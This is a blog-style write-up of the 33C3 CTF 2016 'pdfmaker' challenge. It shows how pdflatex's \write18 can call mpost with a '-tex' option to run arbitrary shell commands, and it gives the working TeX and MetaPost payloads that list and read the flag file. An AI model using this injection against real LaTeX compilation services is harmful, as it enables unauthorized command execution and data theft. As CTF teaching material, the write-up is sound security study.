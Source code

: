 ```yaml
---
layout: post
title: "33C3 CTF 2016: pdfmaker write-up"
date: 2017-02-20 02:21:38 +0000
categories:
    - CTF
description: "Write-up of 33C3 CTF 2016: pdfmaker."
keywords: 33c3, 33c3 ctf, pdflatex, tex, write-up
redirect_from: /p/20170220/
---
```


## pdfmaker (misc 75)

> Just a tiny
> [application](https://archive.aachen.ccc.de/33c3ctf.ccc.ac/uploads/pdfmaker-023c4ad945cb421a8bec1013bddf2bab5f77f77a.tar.xz),
> that lets the user write some files and compile them with pdflatex. What can
> possibly go wrong?
>
> `nc 78.46.224.91 24242`

If you can't download the application, please use this
[link](/downloads/2017/02/20/pdfmaker-023c4ad945cb421a8bec1013bddf2bab5f77f77a.tar.xz).

## What is the goal?

There are some interesting parts in `pdfmaker_public.py`. `initConnection`
copies `flag` file into the `self.directory` with the name of:

``` python
"33C3" + "%X" % randint(0, 2**31) + "%X" % randint(0, 2**31)
```

Since the answer would be in the `33C3XXXXXXXXXXXXXXXX` file, we should get the
list of filenames in its directory. Note that `create` method can create log,
tex, sty, mp, bib files.

## Behavior of `\write18`

[@daehee](https://cysec.kaist.ac.kr/daeheejang.html) found this helpful
link:
["Pwning coworkers thanks to LaTeX"](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/).
According to the post, `\write18` normally executes any program listed in
`shell_escape_commands`:

``` conf
shell_escape_commands = \
bibtex,bibtex8,\
extractbb,\
kpsewhich,\
makeindex,\
mpost,\
repstopdf,\
```

Note that `mpost` is in there, and we can create mp file! As denoted by the
link, `mpost` takes the `-tex` option for text labels, so we can execute
arbitrary program.

<!-- more -->

## Exploitation

I'll explain the exploitation step by step.

At first, we create a tex file that executes `mpost` on compilation. Note that
we specified `bash -c ls>c.log` to the `-tex` option.

```
> create tex x
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c ls>c.log" "x.mp"}
\end{document}
\q
```

Now we create a mp file.

```
> create mp x
verbatimtex
\documentclass{minimal}\begin{document}
etex beginfig (1) label(btex blah etex, origin);
endfig; \end{document} bye
\q
```

Then compile the previous tex file to invoke the `ls` command.

```
> compile x
```

Then we get the list of filename in the directory.

```
> show log c
33C3566BA1153C636C68
c.log
makempx.log
mpxxZmwh.tex
x.aux
x.log
x.mp
x.tex
```

We have to read the content of `33C3566BA1153C636C68` file, so let's create one
more tex file. `bash -c (cat${IFS}33C3566BA1153C636C68)>d.log` will be executed
on compilation.

```
> create tex y
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (cat${IFS}33C3566BA1153C636C68)>d.log" "x.mp"}
\end{document}
\q
```

Then compile it.

```
> compile y
```

So we can read the log.

```
> show log d
33C3_pdflatex_1s_t0t4lly_s3cur3!
```

So the flag is `33C3_pdflatex_1s_t0t4lly_s3cur3!`.
